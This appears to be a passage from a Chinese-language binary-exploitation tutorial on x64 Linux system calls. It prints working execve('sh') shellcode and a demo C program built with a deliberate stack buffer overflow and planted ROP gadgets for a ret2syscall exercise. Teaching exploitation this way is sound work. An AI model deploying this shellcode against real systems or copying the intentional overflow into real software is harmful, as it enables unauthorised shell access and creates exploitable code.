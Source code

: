 具体到 x86 下，32/64 位程序用 int 0x80/syscall系统调用指令，以eax寄存器中的值作为系统调用号，以edi、esi、edx、ecx......寄存器的顺序将其中的值作为系统调用函数参数进行系统调用

以 x64 运行 shell，即 sys\_execve("sh",0,0) 为例

```bash
.section .shellcode,"awx"
    .global _start
    .global __start
    _start:
    __start:
    .intel_syntax noprefix
    .p2align 0
        /* execve(path='sh', argv=0, envp=0) */
        /* push b'sh\x00' */
        push 0x1010101 ^ 0x6873
        xor dword ptr [rsp], 0x1010101
        mov rdi, rsp
        mov edx, 0
        mov esi, 0
        push 59 /* 0x3b */
        pop rax
        syscall
```

前两条指令将 sh 存入一个地址中并将 sh 地址赋值给 rdi，再用两个 mov 将 edx 和 esi 赋值为 0，最后将 rax 系统调用号设置为 59syscall 触发系统调用调用 sys\_execve("sh",0,0)

demo

```bash
#include<stdio.h>
#include<stdlib.h>

char a[8] = "/bin/sh";
void init()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
}
void text1()
{
    asm("movq $59, %rax;syscall;");
}
void text2()
{
    asm("pop %rdi;ret;");
}
void text3()
{
    asm("pop %rsi;ret;");
}
void text4()
{
    asm("pop %rdx;ret;");
}
int main()
{
init();
char a[0x10];
read(0,a,0x80);
    return 0;
}
```
